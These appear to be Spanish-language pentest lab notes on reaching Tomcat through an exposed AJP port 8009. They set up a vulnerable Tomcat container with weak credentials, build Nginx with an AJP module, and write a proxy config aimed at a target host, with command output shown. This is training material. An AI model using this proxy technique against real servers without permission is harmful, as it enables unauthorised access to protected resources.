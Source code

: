 ### AJP proxy

El proxy AJP es el intermediario entre la comunicación de Apache con Tomcat, un software que sirve como versión optimizada de http exclusiva para Java. Cuando encontramos el puerto 8009 TCP con este servicio podemos llegar a atacarlo. Se haría creando un servidor propio Apache o Nginx para comunicarnos y obtener acceso a recursos a los que no deberíamos tener.

Para crear un entorno con Tomcat vulnerable sería de la siguiente forma

Tomcat-users.xml
```shell-session
<tomcat-users>
  <role rolename="manager-gui"/>
  <role rolename="manager-script"/>
  <user username="tomcat" password="s3cret" roles="manager-gui,manager-script"/>
</tomcat-users>
```

```shell-session
Astharot15@htb[/htb]$ sudo apt install docker.io
Astharot15@htb[/htb]$ sudo docker run -it --rm -p 8009:8009 -v `pwd`/tomcat-users.xml:/usr/local/tomcat/conf/tomcat-users.xml --name tomcat "tomcat:8.0"
```

### Conectarnos a Tomcat

#### Descargar Nginx
```shell-session
Astharot15@htb[/htb]$ wget https://nginx.org/download/nginx-1.21.3.tar.gz
Astharot15@htb[/htb]$ tar -xzvf nginx-1.21.3.tar.gz
```

#### Compilar Nginx
```shell-session
Astharot15@htb[/htb]$ git clone https://github.com/dvershinin/nginx_ajp_module.git
Astharot15@htb[/htb]$ cd nginx-1.21.3
Astharot15@htb[/htb]$ sudo apt install libpcre3-dev
Astharot15@htb[/htb]$ ./configure --add-module=`pwd`/../nginx_ajp_module --prefix=/etc/nginx --sbin-path=/usr/sbin/nginx --modules-path=/usr/lib/nginx/modules
Astharot15@htb[/htb]$ make
Astharot15@htb[/htb]$ sudo make install
Astharot15@htb[/htb]$ nginx -V

nginx version: nginx/1.21.3
built by gcc 10.2.1 20210110 (Debian 10.2.1-6)
configure arguments: --add-module=../nginx_ajp_module --prefix=/etc/nginx --sbin-path=/usr/sbin/nginx --modules-path=/usr/lib/nginx/modules
```

(Estamos usando el puerto 8009, el predeterminado para Tomcat pero si no estuviera en uno predeterminado habría que cambiarlo)

#### Apuntar al puerto AJP
/etc/nginx/conf/nginx.conf
```shell-session
upstream tomcats {
	server <TARGET_SERVER>:8009;
	keepalive 10;
	}
server {
	listen 80;
	location / {
		ajp_keep_conn on;
		ajp_pass tomcats;
	}
}
```

```shell-session
Astharot15@htb[/htb]$ sudo nginx
Astharot15@htb[/htb]$ curl http://127.0.0.1:80

<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8" />
        <title>Apache Tomcat/X.X.XX</title>
        <link href="favicon.ico" rel="icon" type="image/x-icon" />
        <link href="favicon.ico" rel="shortcut icon" type="image/x-icon" />
        <link href="tomcat.css" rel="stylesheet" type="text/css" />
    </head>

    <body>
        <div id="wrapper">
            <div id="navigation" class="curved container">
                <span id="nav-home"><a href="https://tomcat.apache.org/">Home</a></span>
                <span id="nav-hosts"><a href="/docs/">Documentation</a></span>
                <span id="nav-config"><a href="/docs/config/">Configuration</a></span>
                <span id="nav-examples"><a href="/examples/">Examples</a></span>
                <span id="nav-wiki"><a href="https://wiki.apache.org/tomcat/FrontPage">Wiki</a></span>
                <span id="nav-lists"><a href="https://tomcat.apache.org/lists.html">Mailing Lists</a></span>
                <span id="nav-help"><a href="https://tomcat.apache.org/findhelp.html">Find Help</a></span>
                <br class="separator" />
            </div>
            <div id="asf-box">
                <h1>Apache Tomcat/X.X.XX</h1>
            </div>
            <div id="upper" class="curved container">
                <div id="congrats" class="curved container">
                    <h2>If you're seeing this, you've successfully installed Tomcat. Congratulations!</h2>
<SNIP>
```

